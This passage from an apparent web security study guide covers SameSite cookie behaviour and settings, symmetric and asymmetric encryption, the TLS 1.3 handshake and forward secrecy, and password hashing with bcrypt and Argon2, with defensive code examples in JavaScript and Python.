| Third-party site submits form (POST) to your site | ⛔ Cookie not sent | ⛔ Cookie not sent | ✅ Cookie sent |
| Third-party site loads your image/script | ⛔ Cookie not sent | ⛔ Cookie not sent | ✅ Cookie sent |
| Ajax/fetch from third-party site | ⛔ Cookie not sent | ⛔ Cookie not sent | ✅ Cookie sent |
| iframe embedding your site | ⛔ Cookie not sent | ⛔ Cookie not sent | ✅ Cookie sent |

#### Recommended Cookie Configuration

```
Set-Cookie: session_id=abc123;
  HttpOnly;           ← Cannot be accessed by JavaScript (XSS protection)
  Secure;             ← Only sent over HTTPS
  SameSite=Lax;       ← CSRF protection with usability balance
  Path=/;             ← Available on all paths
  Max-Age=86400;      ← 24-hour lifetime
  Domain=.example.com ← Available on subdomains
```

```javascript
// Express.js cookie configuration
app.use(session({
  name: 'sessionId',
  secret: process.env.SESSION_SECRET,
  cookie: {
    httpOnly: true,
    secure: process.env.NODE_ENV === 'production',
    sameSite: 'lax',
    maxAge: 24 * 60 * 60 * 1000, // 24 hours
    domain: '.example.com',
  },
  resave: false,
  saveUninitialized: false,
}));
```

---

## 2.3 Encryption Standards

### Symmetric vs. Asymmetric Encryption



#### Detailed Comparison

| Property | Symmetric | Asymmetric |
|---|---|---|
| **Keys** | One shared secret key | Key pair: public + private |
| **Speed** | ✅ Very fast (100-1000x faster) | ⛔ Slow (computationally expensive) |
| **Key Distribution** | ⛔ Hard — how do you securely share the key? | ✅ Easy — public key can be shared openly |
| **Use Cases** | Bulk data encryption, disk encryption, database encryption | Key exchange, digital signatures, TLS handshake, JWT signing |
| **Common Algorithms** | AES-128, AES-256, ChaCha20 | RSA-2048, RSA-4096, ECDSA, Ed25519 |
| **Key Length (equiv. security)** | 128-bit or 256-bit | RSA: 2048-4096 bit, ECC: 256-384 bit |
| **Scalability** | N parties need N(N-1)/2 keys | N parties need N key pairs |

#### When to Use Each

```
SYMMETRIC (AES-256-GCM):
  ✅ Encrypting data at rest (database fields, files, disk)
  ✅ Encrypting data in transit (after TLS handshake establishes shared key)
  ✅ When both parties can securely share a key in advance

ASYMMETRIC (RSA, ECDSA):
  ✅ TLS/SSL handshake (to exchange a symmetric session key)
  ✅ Digital signatures (JWT signing, code signing, certificates)
  ✅ Key exchange (Diffie-Hellman, ECDH)
  ✅ When parties cannot pre-share a secret

IN PRACTICE — TLS USES BOTH:
  1. Asymmetric → establish trust & exchange a session key
  2. Symmetric  → encrypt all subsequent data (fast)
```

---

### TLS/SSL Handshake

> **TLS (Transport Layer Security)** secures data in transit between a client and server. It replaced SSL (which is deprecated and insecure).

#### TLS 1.3 Handshake (Simplified)



#### TLS 1.3 vs 1.2 Improvements

| Aspect | TLS 1.2 | TLS 1.3 |
|---|---|---|
| **Handshake Round Trips** | 2-RTT | 1-RTT (0-RTT possible for resumption) |
| **Cipher Suites** | Many (including weak ones) | Only 5 strong suites |
| **Forward Secrecy** | Optional | Mandatory (DHE or ECDHE only) |
| **RSA Key Exchange** | Supported | Removed (not forward-secret) |
| **Vulnerable Ciphers** | RC4, 3DES, CBC-mode | All removed |
| **Handshake Encryption** | Certificate sent in clear | Certificate encrypted |

#### What is Forward Secrecy?

```
WITHOUT Forward Secrecy (static RSA key exchange):
  → If the server's private key is compromised in the future,
    ALL previously recorded traffic can be decrypted.

WITH Forward Secrecy (Ephemeral Diffie-Hellman):
  → Each session uses a unique, temporary key pair.
  → Even if the server's long-term private key is compromised,
    past session keys CANNOT be recovered.
  → Each session's encryption dies with the session.

TLS 1.3 MANDATES forward secrecy — this is a major security improvement.
```

---

### Hashing vs. Encryption

> This distinction is **critical** and frequently misunderstood.

```
┌────────────────────────────────────────────────────────────────────┐
│                                                                    │
│  ENCRYPTION: Reversible transformation (with the right key)        │
│  Purpose: Confidentiality — protect data so it can be recovered    │
│                                                                    │
│  HASHING: One-way transformation (CANNOT be reversed)              │
│  Purpose: Integrity & verification — verify without storing        │
│           the original value                                       │
│                                                                    │
│  Plaintext → [Encrypt] → Ciphertext → [Decrypt] → Plaintext ✅    │
│  Plaintext → [Hash]    → Hash Digest → [???]    → Plaintext ⛔    │
│                                                                    │
└────────────────────────────────────────────────────────────────────┘
```

| Property | Encryption | Hashing |
|---|---|---|
| **Reversibility** | ✅ Reversible with key | ⛔ Irreversible (one-way) |
| **Output Size** | Variable (proportional to input) | Fixed size (e.g., 256 bits) |
| **Purpose** | Protect data confidentiality | Verify data integrity, store passwords |
| **Key Required** | Yes | No (but use a salt for passwords) |
| **Same Input** | Same output with same key | Same output always (deterministic) |
| **Use Cases** | Encrypting files, network traffic, database fields | Password storage, file integrity, digital signatures |

---

### Password Hashing: Bcrypt & Argon2

> **Passwords should NEVER be encrypted — they should be HASHED** using a specialized, slow, salted password hashing function.

#### Why Not Use SHA-256 for Passwords?

```
SHA-256 is a GENERAL-PURPOSE hash function designed to be FAST.

Problem: An attacker with a GPU can compute BILLIONS of SHA-256 hashes per second.

Hash rate comparison (approximate, single modern GPU):
  SHA-256:    ~10,000,000,000 hashes/second  (10 billion!)
  Bcrypt:     ~30,000 hashes/second
  Argon2:     ~1,000 hashes/second (with memory-hard settings)

A password hash function must be INTENTIONALLY SLOW to resist brute force.
```

#### Bcrypt

```
Structure of a Bcrypt hash:
$2b$12$WApznUPhDuBGaYM8GnHdLe.8a8j6FsblR9RJ.2EjwYVDNeIAP2g1u

$2b$    → Algorithm identifier (Bcrypt, version 2b)
$12$    → Cost factor (2^12 = 4096 iterations)
WApznUPhDuBGaYM8GnHdLe  → 22-character salt (128 bits, base64)
.8a8j6FsblR9RJ.2EjwYVDNeIAP2g1u  → 31-character hash (184 bits, base64)

Key properties:
  ✅ Built-in salt (no separate salt storage needed)
  ✅ Configurable work factor (increase cost as hardware improves)
  ✅ Battle-tested (in use since 1999)
  ⚠️ Maximum input length: 72 bytes
  ⚠️ Not memory-hard (vulnerable to GPU/ASIC attacks at scale)
```

```javascript
// Node.js Bcrypt example
const bcrypt = require('bcrypt');
const SALT_ROUNDS = 12; // Cost factor — increase over time as hardware improves

// Hash a password
async function hashPassword(plaintext) {
  const hash = await bcrypt.hash(plaintext, SALT_ROUNDS);
  return hash; // Store this in your database
}

// Verify a password
async function verifyPassword(plaintext, storedHash) {
  const isMatch = await bcrypt.compare(plaintext, storedHash);
  return isMatch; // true or false
}

// Usage
const hash = await hashPassword('mySecureP@ssw0rd');
// → "$2b$12$WApznUPhDuBGaYM8GnHdLe.8a8j6FsblR9RJ.2EjwYVDNeIAP2g1u"

const valid = await verifyPassword('mySecureP@ssw0rd', hash);
// → true
```

#### Argon2

> **Argon2** is the winner of the 2015 Password Hashing Competition and is considered the **current best practice** for password hashing.

```
Argon2 Variants:
  Argon2d  → Data-dependent memory access (resistant to GPU attacks, but vulnerable to side-channel)
  Argon2i  → Data-independent memory access (resistant to side-channel attacks)
  Argon2id → Hybrid of both — RECOMMENDED for password hashing

Key advantages over Bcrypt:
  ✅ Memory-hard (requires large amounts of RAM, making GPU/ASIC attacks expensive)
  ✅ Configurable: time cost, memory cost, parallelism
  ✅ No input length limitation
  ✅ Modern design, peer-reviewed
```

```python
# Python Argon2 example
from argon2 import PasswordHasher

ph = PasswordHasher(
    time_cost=3,         # Number of iterations
    memory_cost=65536,   # 64 MB of memory
    parallelism=4,       # 4 parallel threads
    hash_len=32,         # Output hash length
    salt_len=16,         # Salt length
)

# Hash a password
hash = ph.hash("mySecureP@ssw0rd")
# → "$argon2id$v=19$m=65536,t=3,p=4$c29tZXNhbHQ$hash..."

# Verify a password
try:
    is_valid = ph.verify(hash, "mySecureP@ssw0rd")
    
    # Check if rehashing is needed (e.g., after increasing parameters)
    if ph.check_needs_rehash(hash):
        new_hash = ph.hash("mySecureP@ssw0rd")
        # Update hash in database
except Exception:
    is_valid = False
```

#### Password Hashing Comparison

| Property | Bcrypt | Argon2id | SHA-256 (DON'T USE) |
|---|---|---|---|
| **Purpose-Built for Passwords** | ✅ | ✅ | ⛔ General purpose |
| **Built-in Salt** | ✅ | ✅ | ⛔ Manual |
| **Memory-Hard** | ⛔ | ✅ | ⛔ |
| **GPU/ASIC Resistant** | Moderate | ✅ Excellent | ⛔ Terrible |
| **Configurable Difficulty** | ✅ (cost factor) | ✅ (time, memory, parallelism) | ⛔ |
| **Max Input Length** | 72 bytes | Unlimited | Unlimited |
| **Recommendation** | Good (legacy systems) | 🏆 Best (new systems) | ⛔ Never for passwords |

#### Recommended Parameters (2024)

```
BCRYPT:
  Cost factor: 12+ (adjust based on server hardware — target ~250ms per hash)

ARGON2ID:
  OWASP Recommended (minimum):
    memory:      19456 KB (19 MB)  |  or 46 MB for higher security
    iterations:  2                 |
    parallelism: 1                 |

  Alternative (if memory-constrained):
    memory:      12288 KB (12 MB)
    iterations:  3
    parallelism: 1

  Target latency: ~250ms–1000ms per hash operation
  Tune for YOUR hardware — benchmark and adjust.
```

---

